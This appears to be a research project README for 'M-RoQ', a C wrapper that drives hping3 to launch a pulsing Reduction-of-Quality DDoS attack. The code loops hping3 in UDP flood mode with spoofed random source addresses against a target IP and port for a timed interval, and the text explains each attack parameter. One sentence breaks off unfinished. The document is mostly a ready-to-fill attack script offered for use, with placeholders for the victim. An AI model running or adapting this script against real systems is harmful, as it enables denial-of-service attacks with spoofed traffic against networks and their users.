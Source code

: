 # M-RoQ software

The M-RoQ (Manipulated-RoQ) software was developed to manipulates the flooding of the Hping3 software. The aim is that the      

#include <stdio.h><br>
#include <string.h><br>
#include <stdlib.h><br>
#include <time.h><br>
#include <unistd.h><br>
<br>
main()<br>
{<br>
&nbsp;&nbsp;&nbsp;while(<time in seconds>)<br>
	{<br>
		system("timeout <time in miliseconds> hping3 --rand-source --flood -2 <dst IP> -p <dst PORT> -d <packet lenght> &");<br>
		usleep(<time in miliseconds>);<br>
        	time in seconds++;<br>
	}<br>
    	system("killall -9 hping3");<br>
}<br>

Where <time in seconds> represents the total time that RoQ attack will act. The timeout command represents the total time in miliseconds that the attack traffic will punish the victim. The hping3 is the flooding DDoS software that will generate the traffic. The --rand-source is the option related to the IP manipulation. the --flood option is related the huge amount o data traffic to sent. the -2 option means that the message sent is UDP. The <dst IP> and <dst PORT> options means the IP target and PORT targe, respectively. The <packet lenght> option means the lenght of the packet sent.<br>
<br>
Finally, the system("killall -9 hping3") command kills the hping3 software to stop the traffic process.<br> 
<br>
Authors:<br>
Vinícius de Miranda Rios<br>
Pedro R. M. Inácio<br>
Damien Magoni<br>
Mário M. Freire<br>
